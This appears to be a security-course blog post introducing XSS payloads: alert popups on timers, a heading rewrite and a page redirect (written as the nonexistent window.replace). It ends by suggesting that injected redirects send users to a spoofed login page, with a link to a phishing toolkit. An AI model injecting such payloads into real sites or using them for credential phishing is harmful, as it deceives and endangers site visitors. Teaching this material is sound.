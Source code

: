 ```yaml
---
layout: post
title: JavaScript Payloads
subtitle: Week 18
tags: [XSS, exploit]
---
```


You've discovered a XSS vulnerability on a page. What next?

*Submit a confidential report.*

Below are a few simple snippets of JavaScript snippets that can be used for evil.

Of course, you need to be familiar with Javascript first...

- <https://www.w3schools.com/js/tryit.asp?filename=tryjs_intro_inner_html>
- <https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript>

<https://jsfiddle.net/> is a convenient way to execute JavaScript in your web browser.

*****

# Client Payloads

{% highlight javascript linenos %}

// this is a comment. 

/*
 * BTW, there's no difference between useing single quotes (')
 * or double quote (") for strings in Javascript.
 *
 * Semicolons are optional.
 */
// usage: setTimeout(function, milliseconds);
setTimeout(function() {
  alert("Have a wonderful day! ^_^");
}, 5000);

// usage: setInterval(function, milliseconds);
setInterval(function() {
  alert("Don't forget to be awesome.");
}, 5000);

document.getElementsByTagName('h1')[0].innerHTML = 'Just wanted to say hello :)';

window.replace('http://www.staggeringbeauty.com/');

{% endhighlight %}

Some exploits require more setup. For example, you can inject `window.replace` to have users be sent to a spoofed login page. <https://tools.kali.org/information-gathering/set>
